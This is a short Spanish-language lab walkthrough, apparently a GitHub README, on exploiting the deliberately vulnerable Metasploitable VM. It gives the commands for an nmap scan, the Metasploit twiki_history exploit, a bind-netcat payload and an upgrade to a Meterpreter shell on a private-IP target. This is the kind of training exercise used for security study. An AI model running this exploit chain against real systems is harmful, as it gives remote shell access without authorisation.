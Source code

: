 #Linux:
  Acerca de:
    -La máquina virtual Metasploitable es una versión intencionalmente vulnerable de Ubuntu Linux diseñada para probar herramientas de seguridad y demostrar vulnerabilidades comunes.

  Buscar vulnerabilidades:
    -Para ello tendremos que usar la herramienta nmap con la que tendremos que poner "nmap -O 192.168.1.10" 192.168.1.10 es la ip que tenermos en la maquina a la cual vamos a atacar 
                                                                                                    
                                                                                                  
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/190cde79-3c47-46d6-bf70-7bd082a6fa75)

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Después usaremos la herramienta twiki con el comando “use exploit/unix/webapp/twiki_history” en la que tendremos si podemos atacar al puerto que nos interese identificar con el comando “show options”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/ce0918a2-a729-44a7-ba80-33201418d83c)


Indicaremos cual es nuestro objetivo con el comando “set rhosts 192.168.1.10”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/f9c339eb-9c92-41d4-9fa8-5ce7741075f4)
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3dbcbd54-3ea7-4570-9b2b-55cc43f3f22a)


 

Para continuar tendremos que usar los siguientes comandos “set payload cmd/unix/bind_netcat”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3403d27e-5900-4edf-a465-3b93fb1944e6)


 
Tendremos que crear una sesión con “exploit -j” y veremos si se ha creado con “sessions -l”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/fe13f062-4730-4f5d-9a18-cdc48dc267bb)


Tendremos que usar los siguientes comandos “use post/multi/manage/shell_to_meterpreter”, “set sessions 2” y “exploit”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/6b9ecb6b-f268-4db5-b4f0-6a81a3d6c2a0)


Ya podemos entrar en la maquina objetivo con el comando “sessions -i 3” y haremos un “ifconfig para confirmar si hemos entrado bien”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/71e9be85-3d5b-4099-b7b7-d8681aec1284)

